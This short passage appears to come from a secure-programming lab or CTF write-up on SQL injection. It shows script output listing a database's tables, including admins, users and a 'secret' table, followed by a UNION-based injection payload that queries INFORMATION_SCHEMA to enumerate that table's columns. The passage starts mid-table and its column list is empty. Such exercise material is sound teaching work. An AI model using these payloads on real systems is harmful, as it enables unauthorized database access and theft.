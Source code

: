   <td style="width:200px">
   products
  </td>
  <td style="width:450px">
   4
  </td>
  <td style="width:110px">
   5
  </td>
 </tr>
 <tr>
  <td style="width:200px">
   2
  </td>
  <td style="width:200px">
   secure_programmingAAAAAAAAAAAAA
  </td>
  <td style="width:450px">
   4
  </td>
  <td style="width:110px">
   5
  </td>
 </tr>
 <tr>
  <td style="width:200px">
   2
  </td>
  <td style="width:200px">
   users
  </td>
  <td style="width:450px">
   4
  </td>
  <td style="width:110px">
   5
  </td>
 </tr>
</table>



    Found table: admins
    Found table: products
    Found table: secure_programmingAAAAAAAAAAAAA
    Found table: users
    ------------------------------------------------------------------------------------------------------------------------------------------------------
    payload: 1' UNION SELECT 1, 2, column_name, 4, 5 FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='secure_programmingAAAAAAAAAAAAA' -- 
    
    Columns in the secret table secure_programmingAAAAAAAAAAAAA:



